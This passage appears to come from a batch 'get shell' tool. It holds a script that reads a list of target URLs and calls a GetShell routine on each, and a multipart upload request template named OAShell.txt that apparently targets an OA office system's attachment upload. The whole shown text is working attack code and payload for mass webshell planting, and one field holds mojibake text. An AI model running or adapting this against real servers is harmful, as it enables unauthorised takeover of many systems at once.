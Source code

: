 ```php
    }
}
function main(args){
    print("请输入要要检测的列表文件:"); 
    list = StrSplit(ReadFile(input()),StrRN());
    i = 0;
    num = GetArrayNum(list);
    while(i < num){
        url=list[ToInt(i)];
        print("当前检测的连接:".url);
        GetShell(url);
        i=i+1;
    }
    print("检测完毕");
}
```

**OAShell.txt：**

```php
-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="SUBJECT"

166.jpg
-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="CONTENT_NO"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="TD_HTML_EDITOR_CONTENT"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="KEYWORD"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="NEW_NAME"

ÐÂ½¨ÎÄµµ
-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="NEW_TYPE"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACHMENT_1"; filename=""
Content-Type: application/octet-stream

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACH_NAME"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACH_DIR"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="DISK_ID"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACHMENT_1000"; filename=""
Content-Type: application/octet-stream

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACHMENT_DESC"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="CONTENT_ID"

-----------------------------33072116513621237124579432636
```